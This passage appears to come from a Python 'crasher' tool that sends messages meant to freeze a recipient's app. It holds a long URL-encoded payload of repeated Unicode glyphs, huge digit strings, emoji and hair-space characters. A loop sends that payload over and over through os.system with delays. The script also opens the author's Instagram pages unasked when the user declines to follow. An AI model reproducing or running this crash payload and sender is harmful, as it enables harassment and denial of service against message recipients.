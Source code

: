 </xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*8888888888*%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*%20*9999999999*%0A*8888888888*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥%20%F0%9F%92%A3%20ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥%20ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥%F0%9F%92%A3%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%0A%F0%9F%98%88Follow%20Me%20On%20Insta%20%40massluxz%F0%9F%A4%A3%0A%F0%9F%94%A5CRASHER%201%20ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥%20%F0%9F%98%88%0A*NULL%0A*9999999999*%20*ẉ.ceo/𝕷𝖚𝖝•</xᴢ/>🅥*
""")
	for i in range (crash):
		print()
		print(f"{Y}[✓] Sending Now\n")
		print(f"{G}[{W}+{G}]{W}Applying 40sec delay...")
		link1 = os.system(link)
		time.sleep(40)
		if link1 == 0:
			print(f"{G} Successful")
			pass
		else:
			print(f"{G}[×] Failed  ")
		time.sleep(0.2)
	return main()

def MSG():
	print(Y)
	YTC = input("𝗙𝗢𝗟𝗟𝗢𝗪 𝗠𝗬 𝗜𝗡𝗦𝗧𝗔𝗚𝗥𝗔𝗠 @𝗺𝗮𝘀𝘀𝗹𝘂𝘅𝘇 (Y/N): ")
	if YTC == 'Y' or YTC == 'y':
		print(G)
		print("𝗧𝗲𝗿𝗶𝗺𝗮𝗸𝗮𝘀𝗶𝗵 𝗬𝗮𝗻𝗴 𝗨𝗱𝗮𝗵 𝗙𝗼𝗹𝗹𝗼𝘄...\n")
		time.sleep(4)
		print("Initializing tool...")
		time.sleep(4)		
		print(W + "\n\n")
		main()
	elif YTC == 'N' or YTC == 'n':
		print("")
		os.system("xdg-open https://www.instagram.com/reel/C19rFiVJ39w/?igsh=MzRlODBiNWFlZA==")
		time.sleep(8)
		os.system("xdg-open https://www.instagram.com/𝗺𝗮𝘀𝘀𝗹𝘂𝘅𝘇")
		time.sleep(3)
		print(W + "\n\n")
		main()

MSG()
